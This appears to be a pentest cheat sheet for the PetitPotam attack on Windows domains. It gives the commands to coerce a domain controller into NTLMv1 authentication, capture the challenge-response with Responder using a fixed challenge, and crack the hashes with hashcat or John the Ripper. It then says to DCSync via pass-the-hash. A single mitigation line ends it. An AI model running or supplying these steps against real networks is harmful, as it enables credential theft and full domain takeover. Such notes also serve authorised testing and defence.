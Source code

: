 # Petit Potam

## Github repo: https://github.com/topotam/PetitPotam

###  Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to NetNTLMv1 Challenge/Response authentication. This uses the outdated encryption method DES to protect the NT/LM Hashes.

## Requirements:

### LmCompatibilityLevel = 0x1: Send LM & NTLM

    reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel

## Exploitation

#### 1) Capturing using Responder: Edit the /etc/responder/Responder.conf file to include the magical 1122334455667788 challenge

#### 2) Fire Responder

    sudo responder -I eth0 --lm

### If --disable-ess is set, extended session security will be disabled for NTLMv1 authentication

#### 3) Force a callback

    PetitPotam.exe Responder-IP DC-IP

    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP

#### 4) Crack the captured hashes with hashcat or John The Ripper

    hashcat -m 5500 -a 3 hash.txt

    john --format=netntlm hash.txt

#### 5) Now you can DCSync using the Pass-The-Hash with the DC machine account

## WARNING!: : NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.

# MITIGATIONS

### Set the Lan Manager authentication level to Send NTLMv2 responses only. Refuse LM & NTLM
